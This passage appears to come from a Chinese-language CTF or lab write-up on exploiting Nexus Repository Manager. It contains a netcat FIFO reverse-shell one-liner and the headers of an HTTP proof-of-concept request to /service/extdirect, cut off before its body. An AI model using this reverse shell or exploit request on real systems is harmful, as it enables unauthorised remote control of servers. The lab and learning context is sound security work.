   得到flag：`flag-{bmh2640652e-062c-4c7b-919b-0f57edb8ae99}`

8.`kali-attacker`开启端口监听，发送POST请求远程执行反弹shell命令，在此使用基于 FIFO 管道的 Netcat 反弹 shell：

```bash
rm -f /tmp/f;mkfifo /tmp/f;/bin/sh -i < /tmp/f 2>&1 | nc 192.168.109.10 4444 > /tmp/f
```

<img src="picture/nexus反弹shell成功_getflag.png" alt="nexus反弹shell成功_getflag" style="zoom:33%;" />

完整POC：

```http
POST /service/extdirect HTTP/1.1
Host: 192.168.109.4:33244
Cookie: NXSESSIONID=3ca5fe18-1417-4694-88a4-f6fd8f2a6b28
Content-Type: application/json
Origin: http://192.168.109.4:33244
Referer: http://192.168.109.4:33244/
X-Nexus-UI: true
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 221

```